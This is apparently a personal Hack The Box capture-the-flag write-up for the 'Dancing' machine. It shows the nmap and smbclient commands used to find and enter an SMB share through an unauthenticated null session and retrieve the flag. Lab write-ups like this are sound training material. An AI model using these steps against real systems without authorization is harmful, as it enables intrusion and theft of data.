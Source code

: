 ```toc
```
# HTB Notes - Dancing #

+ **Date**: 11-30-2022
+ **Author**: Noah Soqui
+ **Tags**: #SMB #Anonymous 

## Intelligence Gathering ##

Scanning machine
+ `sudo nmap -sV -sC -O TARGET_IP`
+ Output:
``` Shell
PORT    STATE SERVICE       VERSION
135/tcp open  msrpc         Microsoft Windows RPC
139/tcp open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds?
```

Assuming port 445 is actually SMB, Will enumerate shares with a Null session 
+ `smbclient -L 10.129.34.222 -N`
+ Output:
``` Shell
        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        WorkShares      Disk      

```
+ `IPC$` will a null session indicates a possible connection 
	+ The dollar sign and the end of the top three mean <mark style="background: #ADCCFFA6;">default share</mark> indicate it is for administrators 
	+ Certain versions of Windows allowed one to authenticate and mount the `IPC$` share without providing a username or password (Null Session)
## Misconfiguration and Vulnerability Analysis  ##

SMB is setup for connection and enumeration with a null session (no password), can use `smbclient` to enumerate and login.

## Exploitation ##

Connect to the share `WorkShares`
+ `smbclient //10.129.34.222/WorkShares -N`

## Post Exploitation ##

+ Download the flag after navigating to it with `get` 

## Reporting ##

### Executive Summary ###

This box shows the danger of a null session SMB service. Without authentication being setup, the contents of a share can be retrieved will no password.